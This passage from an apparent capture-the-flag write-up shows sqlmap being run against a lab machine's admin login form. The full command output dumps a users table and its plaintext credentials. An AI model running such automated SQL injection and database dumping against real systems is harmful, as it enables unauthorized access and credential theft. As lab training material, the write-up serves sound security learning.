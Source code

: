 ### SQLmap

The admin page seems to give us a login form. In situations like this it is always worth it to check for "low-hanging fruit". In the case of login forms one of the first things to check for is SQL Injection.

Recommended Tool: [SQLmap](../../3%20-%20Tags/Hacking%20Tools/SQLmap.md)

Useful Flags:

|   |   |
|---|---|
|-u|Specifies which url to attack|
|--forms|Automatically selects parameters from <form> elements on the page|
|--dump|Used to retrieve data from the db once SQLI is found|
|-a|Grabs just about everything from the db|
Let's do it :

```bash
┌──(hax㉿HaxonKali)-[~/THM/CHALLENGES/Easy/Pingu]
└─$ sqlmap -u http://10.10.110.207/administrator.php --forms --dump

do you want to exploit this SQL injection? [Y/n] Y
[21:48:25] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Ubuntu 16.04 or 16.10 (xenial or yakkety)
web application technology: Apache 2.4.18
back-end DBMS: MySQL >= 5.6
[21:48:25] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
[21:48:25] [INFO] fetching current database
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching tables for database: 'users'
[21:48:25] [INFO] retrieved: 'users'
[21:48:25] [INFO] fetching columns for table 'users' in database 'users'
[21:48:26] [INFO] retrieved: 'username'
[21:48:26] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] retrieved: 'password'
[21:48:27] [INFO] retrieved: 'varchar(100)'
[21:48:27] [INFO] fetching entries for table 'users' in database 'users'
[21:48:27] [INFO] retrieved: 'secretpass'
[21:48:27] [INFO] retrieved: 'pingudad'
Database: users
Table: users
[1 entry]
+------------+----------+
| password   | username |
+------------+----------+
| secretpass | pingudad |
+------------+----------+

[21:48:27] [INFO] table 'users.users' dumped to CSV file '/home/hax/.local/share/sqlmap/output/10.10.110.207/dump/users/users.csv'
[21:48:27] [INFO] you can find results of scanning in multiple targets mode inside the CSV file '/home/hax/.local/share/sqlmap/output/results-07222025_0948pm.csv'                                                                                                                                        

[*] ending @ 21:48:27 /2025-07-22/
```
